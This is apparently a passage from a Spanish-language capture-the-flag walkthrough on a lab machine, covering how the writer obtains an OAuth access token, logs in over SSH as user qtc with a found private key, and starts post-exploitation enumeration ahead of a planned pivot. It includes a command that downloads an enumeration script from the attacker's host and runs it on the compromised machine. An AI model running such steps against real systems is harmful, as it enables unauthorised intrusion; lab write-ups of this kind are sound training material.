 Para hacer la solicitud del recurso lo haremos de la siguiente manera:

  

```
POST /token HTTP/1.1
Host: authorization-server.com
grant_type=client_credentials
&client_id=xxxxxxxxxx
&client_secret=xxxxxxxxxx
```

URL: https://www.oauth.com/oauth2-servers/access-tokens/client-credentials/

  

Hago la solicitud con burp pero me lanzo un error.

![](https://lh3.googleusercontent.com/kZ4nErNqeIrtyf1zcIcbZSQDDLK8R1OwZt3k8mmPsI7wHt-CmbhrvdA8F82okbbBmnJFJtp6f5c3AReVJdJPGpp1rsKn7GRtOL0nvb-h03DV2ucrn3QmXKEWONEN32eOaRlZ2um6)

Al ver que no funciono, lo hago con curl.

![](https://lh4.googleusercontent.com/j3QPqzd5VlbOwKVZhDIq_Z2_npbYFA1tSc2v8DVu_DAKDtacwjggtFpi8ZsEegvw386jVyey2SX_BWFouTD631Hi3nkmYf9_L-oVW8U0EsV5hov4ZXA48rBJQz3TrthHqprcOIe2)

Obtenemos el token de acceso!!!

access_token: `S3Nj1R36eve9EIwj18rNUAvtpBcmFz`

![](https://lh5.googleusercontent.com/oHtz2UgxRGup8EiJa4R0-bSn7LBLCXUKpWdeuDIEtCOOzV9xWla9a7iAG628uT0tInSnY_opKD2X-syoWWzlli-iX_VQ9fDnPRthIdFN1NVn-8jhQL302gcqWRos-MPtNIh7ekuY)

Rápidamente acceso a los recursos.

![](https://lh3.googleusercontent.com/sBFhkEUXaqWOtRWwjFiGsXDCv0U76aDaOHyrgMvrhawubB2DlSQLT4x78C-RqrAQjQa-WtRT47kvdoC3CR3LWogaiNOiHm--WyxWlWTkWxQ5bPU9_T_mHEI0nAp8xiAG0LC4X5-6)

![](https://lh4.googleusercontent.com/wmsg0uawXvCU0ySGMlUL49eOk3e87cSYszvW2ARe2DW828I0xh4OYppgJ6VfwpcYXz_v6mLYoyw7e42p8vl6Q2XECireOJJfFlDNxfNEuLiO2TtjXoMgOHQA4dxXEVGcGVshjT_I)
Le doy permisos 600 a la id_rsa y accedemos como el usuario qtc mediante el servicio ssh.

![](https://lh4.googleusercontent.com/IWxlxAHEdVWLh1MZyD_2wvhWwoFEH3PiCQIFYPKp_YjbMBMEd1fSVVdUY9vNLRgZm1GY_FBOJQylBvSAnl1I3iI6IRUa9XfrCMRfNogQ2XFXXpBAGEb1Mso_rPr_f8T17k_KYu3K)

## SSH como el usuario QTC.

Paso el script de [linux-smart-enumeration]([https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)), le doy permisos de ejecucion y lo ejecuto.

  
```
$ wget http://10.10.14.4/lse.sh && chmod +x lse.sh && ./lse.sh
```

La parte que más me llamó la atención fue la siguiente:

![](https://lh6.googleusercontent.com/lRKU08wNW7ViXZWCofx6kmdXFPstXX-NokkoBDdheF464CGu-69IRVcJy_b9seJpyob0oN5PuAXk0BjArY65fHTTpd1ipfqdl0mV6KVuBoIDqUjqeTKWSMTW3enRC3upplUqvMX7)

Es muy probable de que haya algunos contenedores docker activos, así que ejecuto el comando:

```
$ ip a
```
El comando anterior no sirve para mostrar toda la información de las interfaces de red. 
Ahora comenzare por intentar pivotear a otro segmento de red.
